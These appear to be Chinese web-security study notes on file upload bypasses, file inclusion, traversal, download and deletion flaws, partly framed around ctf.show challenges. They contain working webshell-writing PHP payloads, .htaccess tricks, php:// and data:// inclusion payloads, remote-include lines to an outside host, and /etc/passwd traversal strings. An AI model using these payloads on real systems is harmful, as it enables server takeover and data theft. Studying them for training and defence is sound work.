

# 漏洞判断

参数f的参数值为PHP文件时：

1.文件被解析，则是文件包含漏洞

2.显示源代码，则是文件查看漏洞

3.提示下载，则是文件下载漏洞

# 文件上传

### 原理

攻击者利用网站的文件上传功能上传后门来实现远程连接权限控制或配合其他漏洞进行攻击

### 思维导图



### 绕过

[22：WEB漏洞-文件上传之内容逻辑数组绕过与解析漏洞 - zhengna - 博客园](https://www.cnblogs.com/zhengna/p/15624867.html)

##### 前端js验证

对方网站在验证文件上传类型时，可能采取的是前端js验证，其特征为在上传被拦截的文件类型时，查看当前网站的网络时发现并没有发包，也没有验证错误的响应包回显。说明对方网站在前端就通过js代码将该文件类型拦截

也可以通过网站的前端源码直接看到检验的代码

1.可以通过本地构造表单模拟提交进行绕过：

直接将网站上传功能的网页的源代码全部复制下来在本地重新写一个网页，删去网页的验证逻辑，修改本地网页的发包路径与原网页的发包路径一致，直接在本地上传后门文件，由本地的网页发包给目标网页

详细靶场实战可以看小迪2024-67天22分

2.也可以通过抓包绕过前端：

先上传一个可以通过验证的文件让网页发包，然后抓取该数据包，再将数据包中的文件名后缀，文件名以及请求体中的文件内容改为恶意文件

##### .htaccess、

```
利用htaccess绕过前提：

- 1、apache服务器。
- 2、能够上传.htaccess文件，一般为黑名单限制。
- 3、AllowOverride All，默认配置为关闭None。
- 4、LoadModule rewrite_module modules/mod_rewrite.so #mod_rewrite模块为开启状态
- 5、上传目录具有可执行权限。 

.htaccess文件是Apache服务器中的一个配置文件，它负责相关目录下的网页配置。启用.htaccess，需要修改httpd.conf，启用AllowOverride。一旦启用.htaccess，意味着允许用户自己修改服务器的配置。

通过htaccess文件，可以帮助攻击者实现网页301重定向，自定义404错误页面，改变文件扩展名，允许/阻止特定的用户或目录的访问，禁止目录列表，配置默认文档等功能
```

htaccess是apache的一个配置文件，攻击者可以通过上传自定义规则的htaccess文件来修改网站的配置进行配合攻击：

攻击者现在本地写一个名为.htaccess的文件，其内容为

```
AddType application/x-httpd-php .png
意思为添加一个文件种类：将png后缀的文件解析为PHP格式
```

然后将该文件上传至目标网站，之后网站的png文件就会被解析为PHP格式

eg:源码配置了黑名单，拒绝了几乎所有有问题的后缀名，除了.htaccess

.htaccess作为局部变量成功作用于当前目录下文件的两个条件

（1.启用AllowOverride，2.开启mod_rewrite模块）

```
修改httpd.conf:
1、Allow Override All
2、LoadModule rewrite_module modules/mod_rewrite.so
```

eg:

先上传一个.htaccess文件:

```
<FilesMatch "hello">
setHandler application/x-httpd-php
</FilesMatch>
```

作用是使当前目录下所有文件名包含“hello”字符串的文件当作php文件解析。然后再上传一个hello.jpg文件，内容如下：

```
<?php phpinfo(); ?>
```

此时访问该文件web路径，服务器执行hello.jpg文件中的PHP代码。

##### MIME类型判断

对方网站通过效验数据包中请求头的MIME类型进行拦截【MIME大小写不敏感】

eg:

```
Content-Type：image/png
```

通过修改MIME类型的值来进行绕过

##### 文件头判断

文件类型信息也会记录在文件中，当我们以txt/16进制查看一个文件/图片时可以发现常规文件都会有文件头在记录文件类型信息，也就是文件开头的几个字节

常见的文件头标志如下：

```
jgp 文件头：FFD8FF
PNG 文件头：89504E47
gif 文件头：47494638
HTML 文件头：68746D6c3E
ZIP 文件头：504B0304
RAR 文件头：52617221
pdf 文件头：255044462D312E
MS WORD/EXCEL (XLS/OR/DOC) 文件头：D0CF11E0
```

**绕过**：对方网站如果效验文件头就需要伪造改变文件头标志

##### 特殊解析后缀

apache服务器能够使用php解析.phtml .php3 .php5

前提是apache的httpd.conf中有如下配置代码

```
AddType application/x-httpd-php .php .phtml .php3 .php5
```

因此可以上传.phtml .php3 .php5文件，绕过黑名单

##### 后缀名黑名单

###### 大小写绕过

###### 后缀名空格绕过

原理是 服务器在校验黑名单时，校验的后缀名是.php+空格，由于.php+空格不在黑名单内，可以通过校验，而windows系统在保存文件时，会自动去掉后面的空格，因此文件最终保存在服务器上的后缀名为.php。（linux系统在保存文件时应该也会自动去除空格，可以自行测试一下？）

###### 点绕过

在后缀名中加”.”绕过

###### ::$DATA绕过

在php+windows的情况下，如果文件名+“::DATA”进行过滤。在php+windows的情况下，如果文件名+“::DATA”会把“::DATA”之后的数据当成文件流处理，不会检测后缀名，且保持“::DATA”之后的数据当成文件流处理，不会检测后缀名，且保持“::DATA”之前的文件名。利用windows特性，可在后缀名后面加“::$DATA”绕过

###### 双写绕过

黑名单过滤，将黑名单里的后缀名替换为空且只替换一次，因此可以用双写绕过

##### 后缀名白名单

###### %00截断绕过

0x00是十六进制表示方法，是[ascii码](https://so.csdn.net/so/search?q=ascii码&spm=1001.2101.3001.7020)为0的字符，在有些函数处理时，会把这个字符当做结束符。 系统在对[文件名](https://so.csdn.net/so/search?q=文件名&spm=1001.2101.3001.7020)的读取时，如果遇到0x00，就会认为读取已结束。

GET型提交的内容会被自动进行URL解码，在POST请求中，%00不会被自动解码，需要在16进制模式中将其手动修改为00

截断条件：php版本小于5.3.4，php的magic_quotes_gpc为OFF状态

###### 0x00截断

这种情况常出现在ASP程序中，PHP 版本<5.3.4时也会有这个情况，JSP中也会出现。

如：在文件1.php.jpg中插入空字符变成：1.php.0x00.jpg中，解析后就会只剩下1.php，而空字符怎么插入的呢？通常我们会用Burp抓包后，在文件名插入一个空格，然后再HEX中找到空格对应的16进制编码“20”，把它改成00（即16进制ASCII码00，对应十进制的0），就可以插入空字符了。PS:这里的空格纯粹只是一个标记符号，便于我们找到位置，其实这里是什么字符都无所谓，只不过空格比较有特异性，方便在HEX中查找位置

以上是前端0x00绕过

想使用00截断绕过后端验证，除非两个条件之一：

详细看[文件上传绕过之00截断_00截断绕过-CSDN博客](https://blog.csdn.net/weixin_44840696/article/details/90581104)

##### 条件竞争

经过代码审计发现对方网站先进行文件上传，然后再进行效验，则可以使用条件竞争

上传不断发包，请求不断发包

```
代码逻辑：
1.用户上传1.php
2.1.php存储到了upload目录
3.后端开始检测，发现1.php不是合法的后缀
4.删除1.php


在1.php的代码中写入：常见一个x.php，并在里面写入后门代码
通过不断上传1.php与不断访问1.php，在1.php被删除前触发其中的代码
```

```
具体使用：
1.打开BP，上传1.php并抓包
   1.php内容：
   <?php fputs(fopen('xiao.php','w'),'<?php eval($_REQUEST[1]);?>');?>
2.抓到包后将其发送到intruder模块
   为了实现循环发包，在请求数据包中加入一个不影响数据包的数字1，并对其使用Intruder模块的增加变量功能，使其变成一个变量,再转到Payload模块具体设置循环的次数
   eg:user-agent:xxxxxxxxxxxxxxxxxx$1$
3.访问上传文件的目录并抓包，同样设置循环发包   
4.开始循环发包上传文件和循环发包访问文件
5.通过查看访问文件的循环发包中大量数据包的返回payload长度判断是否成功
```

- 一般该漏洞还会同时要配合修改文件头，MIME类型等

##### 二次渲染

这里根据不同的文件类型，分别使用magecreatefromjpeg()、imagecreatefrompng()、imagecreatefromgif()函数对图片进行二次渲染。

由于图片是分为不同的数据块的，我们只需要想办法把木马写入二次渲染时不会改变的数据块中，即可成功上传图片马，上传成功后，需要配合文件包含漏洞，才能成功执行木马。

具体方法参考：https://xz.aliyun.com/t/2657

##### 函数缺陷

对方网站采用move_uploaded_file 函数进行验证

PHP5.3.4版本以下可用00截断绕过

同时文件名如果支持自定义，可以尝试1.php/.绕过黑名单

##### 数组绕过


### 实战问题

##### 没有读取执行权限

网站管理员对网站上传文件的目录做了设置，让用户对上传文件的目录只有上传文件的权限，没有读取与执行的权限，此时我们就算上传了后门也无法运行

**绕过**：通过文件上传的功能点，尝试把后门文件上传至其他目录【因此条件为可以自定义控制上传文件的目录】

##### 上传文件变成文件流

发现上传的文件目录不是传统的

```
xxx/xxx.xxx
```

而是

```
data:xxxxxxx;base64,xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
```

发现其目录被编码成了一串数据，上传的文件不是以文件存储的方式被访问，而是将文件内容编码为文件流，变成一串编码后的数据。

对方采用的方式不是传统的将上传的文件存储在某个目录，而是把上传的文件其中的内容编码成一串数据并存储，当用户访问时，再返回该文件流数据让浏览器进行固定某种文件格式的解析

对方后端代码案例：

```
$base64Data = base64_encode(file_get_contents($tmpFilePath))；
//将上传的文件转换为Base64编码数据
echo '';
//网站显示图片时的设置
```

**绕过**：无法直接绕过

##### 分站存储

upload.xiaodi8.com上传

images.xiaodi8.com存储

**绕过**：看存储的执行策略，先拿到存储网站的权限，再尝试渗透主网站的权限

##### OSS对象

把上传的文件存储在云服务器上【OSS对象存储服务】

**绕过：**无法直接绕过，要跑到云安全

### 漏洞发现

1、注册用户上传地方

2、JS或API接口的代码

eg;

打开一个网站，没有找到文件上传的功能点，打开开发者模式，发现一些js文件，

通过搜索upload字段，发现一些可能存在文件上传js文件

审计js文件，发现有一个js文件存在文件上传功能

根据js代码的逻辑构造一个上传文件的页面，

将其目标地址指向js文件来触发文件上传


3、后台或其他管理页面

4、源码泄露或盲测文件

5、三方编辑器上传漏洞

6、特定的源码审计漏洞

# 目录遍历

- 根本原因：权限控制不当

### 利用

**后台管理遍历**：后台管理模块有时会出现类似管理文件夹的功能，此时可以尝试修改路径进行目录遍历，，若开发者目录权限控制不当，通过控制查看目录路径穿越到其他目录或判断获取价值文件再利用，危害极大时甚至可以随意查看其他文件夹

**目录索引遍历**：有的中间件支持目录索引功能，若是开启，用户访问某些目录时可以看到。若开发者目录权限控制不当，通过遍历获取到有价值的信息文件去利用

# 文件包含

### 原理：

程序开发人员通常会把可重复使用的函数写到单个文件中，在使用某些函数时，

直接调用此文件，而无须再次编写，这种调用文件的过程一般被称为文件包含。

在包含文件的过程中，如果文件能进行控制，则存储文件包含漏洞

**程序员开发的时候没有对包含的文件进行严格的过滤，攻击者可以构造自己的图片木马文件当做PHP执行**

eg:

现在有一个网站的文件包含功能的代码具体如下：

```
<？php
include $_GET['file']
```

网站由于需求，包含文件的地址不确定，由URL来控制包含那个文件，此时创建1.txt文件，文本内容为<?php phpinfo();?>，然后修改文件名为1.png，然后上传到这个网站，此时在url中传参【GET传参】file=1.png。此时网站就会执行包含1.png，将1.png按照php文件解析执行其中的代码phpinfo()。

### 漏洞发现

- 白盒发现：

1、可通过应用功能追踪代码定位审计

2、可通过脚本特定函数搜索定位审计

3、可通过伪协议玩法绕过相关修复等

PHP：include、require、include_once、require_once等

include在包含的过程中如果出现错误，会抛出一个警告，程序继续正常运行

require函数出现错误的时候，会直接报错并退出程序的执行

Java：java.io.File、java.io.FileReader等

ASP.NET：System.IO.FileStream、System.IO.StreamReader等

- 黑盒发现：主要观察参数传递的数据和文件名是否对应

URL中有path、dir、file、page、archive、eng、语言文件等相关字眼

eg:

xxxx.com/xxx.php?file=aaa,查看响应数据包，发现里面有可能是aaa的源代码，说明对AAA文件进行解析包含，则这里可能存在包含漏洞

------

include（）：找不到被包含的文件时只会产生警告，脚本将继续运行。
  include_once（）：找不到被包含的文件时只会产生警告，脚本将继续运行。如果该文件中的代码已经被包含，则不会再次包含，即程序只调用一次。
  require（）：找不到被包含的文件时会产生致命错误，并停止脚本运行。
  require_once（）：找不到被包含的文件时会产生致命错误，并停止脚本运行。如果该文件中的代码已经被包含，则不会再次包含，即程序只调用一次。

### 分类

##### **本地包含**Local：

https://xxx.com/aa/?file=1.php

###### 配合文件上传

本地包含的前提是本地有恶意文件，因此需要配合本地文件上传漏洞

###### 日志包含

日志会记录访问者的url的访问路径，UA头等信息，这些信息可以由攻击者自己修改

当得知对方的日志路径时，可以恶意修改请求数据包中的UA头，然后进行放包，日志文件就会记录恶意代码，此时在本地包含该日志文件，就会执行日志中的恶意代码

###### session包含

前提是得知session的路径【默认路径测试】

整体原理是自己先去重命名重新写一个新的session文件，然后去包含目标目录中的session文件

由于session会定时清理，所以需要用到条件竞争【短时间后台写脚本大量发包】，在恶意文件还存活时远程包含该文件

session文件的命名规则是由请求数据包中的Cookie:PHPSESSID=xxx决定的，命名后文件名为sess_xxx

###### 伪协议

参考：https://blog.csdn.net/unexpectedthing/article/details/121276653

PHP协议

```
input:// - 写入文件
file:// — 访问本地文件系统
http:// — 访问 HTTP(s) 网址
ftp:// — 访问 FTP(s) URLs
php:// — 访问各个输入/输出流（I/O streams）
zlib:// — 压缩流data:// — 数据（RFC 2397）
glob:// — 查找匹配的文件路径模式
phar:// — PHP 归档
ssh2:// — Secure Shell 2
rar:// — RAR
ogg:// — 音频流
expect:// — 处理交互式的流
-文件读取：
file:///etc/passwd
php://filter/read=convert.base64-encode/resource=phpinfo.php
-文件写入：
php://filter/write=convert.base64-encode/resource=phpinfo.php
php://input POST:<?php fputs(fopen('shell.php','w'),'<?php @eval($_GET[cmd]); ?>'); ?>
-代码执行：
php://input POST:<?php phpinfo();?>
data://text/plain,<?php phpinfo();?>
data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
```

##### **远程包含**Remote

https://xxx.com/aa/?file=https://xxxxxxxxx

###### 利用思路

直接搭建一个可访问的远程URL包含文件

远程包含由于可以远程加载其他文件，所以就不需要配合文件上传漏洞，直接远程包含就完了

##### 差异原因：

代码过滤和环境配置文件开关决定

以php为例：

PHPStudy可以选择是否开启远程包含【或者在php.ini文件中修改allow_url_include参数】

### 检测

白盒：代码审计

黑盒：漏扫工具扫描；公开漏洞；手工查看网址的传参的参数值；根据当前网站页面的功能判断是否用到文件包含函数

### 绕过

**本地包含**：

1.无限制

跨目录包含时可以用到如`参数=../../../www.txt`这样子的格式来实现返回上一级目录

2.有限制

include后缀名强加，绕过方式：%00截断|长度截断(类似于垃圾数据填充)【条件：目标服务器的系统windows的点和斜杠长度需要长于256；linux的点和斜杠的长度需要长于4096】

**远程包含**

有限制

比如通过phpinfo()函数查询php脚本搭建的网站的allow_url_include开关是否开启，开了就支持进行远程文件包含，没开就不支持

绕过

- `%20`；`？`；`%23`绕过

readme.txt%20

readme.txt?

readme.txt%23

##### CTF方向

```
#CTF方向
https://ctf.show/challenges

78-php&http协议

payload:?file=php://filter/read=convert.base64-encode/resource=flag.php
payload: ?file=php://input post:<?php system('tac flag.php');?>
payload: ?file=http://www.xiaodi8.com/1.txt 1.txt:<?php system('tac flag.php');?>

79-data&http协议
payload: ?file=data://text/plain,<?=system('tac flag.*');?>
payload:?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCd0YWMgZmxhZy5waHAnKTs/Pg==
payload: ?file=http://www.xiaodi8.com/1.txt 1.txt:<?php system('tac flag.php');?>

80 81-日志包含
该题可以包含日志目录：/var/log/nginx/access.log
1、利用其他协议,如file,zlib等
2、利用日志记录UA特性包含执行
分析需文件名及带有php关键字放弃
故利用日志记录UA信息，UA带入代码
包含：/var/log/nginx/access.log

82-86-SESSION包含
利用PHP_SESSION_UPLOAD_PROGRESS进行文件包含
自定义session名字，条件竞争访问session文件，触发创建新文件
<!DOCTYPE html>
<html>
<body>
<form action="http://xxxx.ctf.show/" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST[1])?>'?>" />
    <input type="file" name="file" />
    <input type="submit" value="submit" />
</form>
</body>
</html>
https://www.cnblogs.com/lnterpreter/p/14086164.html
https://www.cnblogs.com/echoDetected/p/13976405.html

87-php://filter/write&加密编码
1、利用base64:
url编码2次：php://filter/write=convert.base64-decode/resource=123.php 
content=aaPD9waHAgQGV2YWwoJF9QT1NUW2FdKTs/Pg==
2、利用凯撒13：
url编码2次：php://filter/write=string.rot13/resource=2.php
content=<?cuc riny($_CBFG[1]);?>

88-data&base64协议
过滤PHP，各种符号，php代码编码写出无符号base64值
Payload：file=data://text/plain;base64,PD9waHAgc3lzdGVtKCd0YWMgKi5waHAnKTtlY2hvIDEyMzs/PmFk

117-php://filter/write&新的算法
convert.iconv.：一种过滤器，和使用iconv()函数处理流数据有等同作用
<?php
$result = iconv("UCS-2LE","UCS-2BE", '<?php eval($_POST[a]);?>');
echo "经过一次反转:".$result."\n";
echo "经过第二次反转:".iconv("UCS-2LE","UCS-2BE", $result);
?>
Payload：?file=php://filter/write=convert.iconv.UCS-2LE.UCS-2BE/resource=a.php
contents=?<hp pvela$(P_SO[T]a;)>?

```

### 实际案例SRC

https://mp.weixin.qq.com/s/hMUDDgRSPY6ybznYBRZ20Q

http://testphp.vulnweb.com/showimage.php?file=index.php

### 防御

PHP中使用open_basedir限制访问在指定的目录区域
过滤 点 . 反斜杠 / \，防止跨目录
禁止服务器远程文件包含
尽量不要使用动态包含，可以在需要包含的页面固定写好

# 文件下载/文件读取

##### 原理

文件常见的读取/下载方式有两种：

直链下载：http://www.xiaodi8.com/upload/soft.zip

传参下载：http://www.xiaodi8.com/xx.xx?file=soft.zip

其中，传参下载由于下载/读取的文件由参数控制，而参数可能可控，所以可能存在安全漏洞

- 为什么开发者不使用直链下载而选用传参下载？

一方面为了浏览器的兼容性，另一方面为了网站代码的便利与效率

##### 利用任意文件读取漏洞Getshell**

想直接利用任意文件读取来Getshell还是比较难的。如果目标网站是Tomcat的话，可以利用文件读取漏洞来读取Tomcat的tomcat-users.xml配置文件，然后得到Tomcat管理页面的账号密码，登录，上传War包Getshell。具体上传war包getshell，传送门：https://blog.csdn.net/qq_36119192/article/details/90446112#%E5%BC%B1%E5%8F%A3%E4%BB%A4%2BGetshell

然而，如何能知道Tomcat的tomcat-users.xml配置文件的绝对路径呢？这确实很难找。这里有一个思路就是，我们可以通过读取 .bash_history文件来查看管理员的历史命令，来得到Tomcat的安装路径，从而得知tomcat-users.xml的绝对路径。

传送门：https://blog.csdn.net/xiaoi123/article/details/80803390

### 函数

1. **fopen**
2. **file_get_contents**
3. **fread**
4. **fgets**
5. **fgetss**
6. **file**
7. **fpassthru**
8. **parse_ini_file**
9. 
10. **readfile**

### 绕过

```
可以进行fuzz

url编码代替.或者/，如使用%2F代替/
?filename=..%2F..%2F..%2F..%2Fetc%2Fpasswd

二次编码(%25)
?filename=..%252F..%252F..%252F..%252Fetc%2Fpasswd

加入+
?filename=.+./.+./bin/redacted.dll

%00
?filename=.%00./file.php
/etc/passwd%00.jpg

\
?filename=..%5c..%5c/windows/win.ini

Java %c0%ae 安全模式绕过
?filename=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
```

### 利用

[文件读取漏洞的后利用姿势 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/337617.html)

# 文件删除

常出现后台中，比如管理文件部分

可能存在安全问题：前台或后台有删除功能应用

### 利用：

常规删除1.抓数据包改目录删除敏感文件

重装锁定配合程序重装2.网站使用中间件搭建时在安装时会安装一个锁定文件，删除锁定文件后系统就会报错需要重装

或高危操作

### 绕过

1.出现只允许删除xxx目录下的提示

实现方式可能是检测xxx关键字，带上关键字试试


### 函数

unlink()
